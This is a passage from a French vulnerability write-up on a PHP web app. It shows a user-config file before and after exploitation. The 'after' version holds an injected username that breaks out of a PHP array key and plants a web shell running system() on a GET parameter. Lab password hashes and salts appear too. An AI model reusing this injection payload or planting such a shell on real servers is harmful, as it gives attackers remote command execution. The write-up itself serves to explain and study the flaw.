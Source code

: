 ## Kékidi?

Petit coup de loupe sur cette vulnérabilité : avant l'exploitation, on a le fichier `private/auto_restrict_users.php` qui ressemble à ceci :

```php
cysec2@cysec2:/var/www/html/Exolit/private$ cat auto_restrict_users.php
<?php

# user : useradd test
$auto_restrict["users"]["useradd test"]["login"]='useradd test';
$auto_restrict["users"]["useradd test"]["encryption_key"]='db25cb37601b3dbcbde9d60a1e3fa749';
$auto_restrict["users"]["useradd test"]["salt"] = 'Snad89hrIwa#KRP2ku0wOo_Aik>83G8MD+DOa+BBEyq8L6Ad#y1T+@e+Ia#%A>yDE5eSfV4m7ro+IZ@xAP9p63S82HmICFbx_KIWcPu@>2RgZeT|WB&LhhSupiz4f_2X0w-Z>OTF+KGC<r4ugeRf0Ai!Kr+VmC_1EUSwOGj-2@%Q@H_y1EzBxgwv_blP>pWVcCw0eJ2Z>iY1A1sP<h!@TFyshKLhfuNKC_n|PgA4Crfnj?x0rGM_XT6jQ4l3mEPO&FYa9IsTKzqA+Qx@X7-+t<fyJUfOYdm_ikK*B2!054_Run0+FKN?_m*iSVt1RI|x>ez%mKPOnYN7!wx4gOlY2c#KE_iv2nz|CVfFiyrMHml!@pZ6Jq2tx5HG%*5nv*grWNBHjRv|cAZd<LlD2T4tIP>A+o2Xdt8MbgtrH1r!9+@c1s0q7ts2z@Duz6_r4L6fc9A@NbH<<88RSNHH%eq7|BwGdc|761|7u1Knsyih?<4*NSXUvKJqmct6&|HUSd#3';
$auto_restrict["users"]["useradd test"]["pass"] = 'f5c8973bfbaa094c64b1989bebd2a27d2143bfc7e6c70da4f4ce5b17506ecb129bc11af7d7943bb8828659970c5de36a5fead2066ff9bfbe99064c042a3fe143';
$auto_restrict["users"]["useradd test"]["status"]='superadmin';
$auto_restrict["users"]["useradd test"]["lang"]='en';

# user : ls
$auto_restrict["users"]["ls"]["login"]='ls';
$auto_restrict["users"]["ls"]["encryption_key"]='c454056645686557768078f2931f91f1';
$auto_restrict["users"]["ls"]["salt"] = '&KmvOcS>G7XL0OamcsB5hcUpi__poVWpij075*-W*w7-&O#t>z9rCvQ@edAmOpty@*pH7b8!9ke-yyNuvejQ8BqUf@qp9U!6P62465CbpGf+a!@6f%WhokMo-#|b+FW7O8GN--3HbpuNSz5cFc|G<@NtjqX1H>|MIAgB4%w4bc+nwuLf<PWv9d#?KP<-jyL?BqCtnk-0pH+Wvxt1!0B4S#&hKQZp3vOHzrSj4TuV0bdy9Fc>>spAy&hL-3AdUh9_b0-uzdMA@rYdq#1HJ8!aaSaYWWJepWkMjnN1EcS5aORl*PgYE&mPcb9N-ZaaRAYIEVBr0zFNReXdCy+uHVoqT-eykVi+#c0Zybh7>kJ<UXy#9oa48gj!6h<f+urBQqMfw4Js?S2dU<m1SYQ8yGqy1%CXxm>L?F-iQs_BcPzgcyt|AzW5YZTMCE2ir0HaGPbKvON5NwUs*!Z@t_bw<q5b9ThM<J29a+-x?HBCLF@nCSQRtczY1cEIzMsz@6xDxzGb';
$auto_restrict["users"]["ls"]["pass"] = 'cac98fc2d3388609edbbb4e89ebde68c546e2586011b5888e17f12c8992319424511ca0b2e0e3b191b1b1a20759431db4b443416fa45475f0da7370872837f22';
$auto_restrict["users"]["ls"]["status"]='user';
$auto_restrict["users"]["ls"]["lang"]='en';

?>
```

Après exploitation il a les lignes supplémentaires suivantes :

```php
# user : "];$PWN=system($_GET[chr(99)]);////"
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["login"]='"];$PWN=system($_GET[chr(99)]);////"';
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["encryption_key"]='ed51dbd310179926cec142cf9cd0db85';
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["salt"] = 'n?paz0Lnq8d3o74Uwms&ZR%pFwRCXKGa!g4-IusuOlm3TCgx>1BRzju+b%!dw2NSOssFs-#?RMDjk<sRIrl2fdiQ|wcy<1nhT2AojlAkHq11@?F2Ir2bhOJPbzUYoiCrqdNJz&ys>IWWUnT6B<rOg5Nxiqz#e&>s&+xl-wckMTonDeaMSeCz_N8MJCH#M|J45gQ9y+y%sYtSYHk8utP3iChOU1qw+OAUN#w?>lZ6Jt_P#|&+CdtGW>nMOATNBcnwEe&Zb51YH!m+v<7cVQbyWcLN_-nCfs88fyTry*pIThl4Bji566@kMDtC&NTNU4d-xgziXc7jgQSO59M#w_KkGY0L_W7oe#_ozCuX_@!C6|nVS6V6rp#PcHA3Ins1V9WM2Z|L!Kz?7q7#5zr4kxdOXZs|xV<5P#Zou3<!kacSr*vG%Pj2w|@ha-u*GC0#%Wjvs*-xL>tqyR3Sx<W|onh&9EEUNs|JpP7M50bFZkSad|yvhyRm&2clLgabEtdubpCv';
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["pass"] = 'fe30b2b96b3055066bdbbadcbd1d3b1c966f7ae676de68cf5cde830cd7176f2b7ba7a21ef439f46358d5a5a56e2a429c2c8ec7a1418b011d2933a3c887d0c1b2';
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["status"]='';
$auto_restrict["users"][""];$PWN=system($_GET[chr(99)]);////""]["lang"]='en'
```
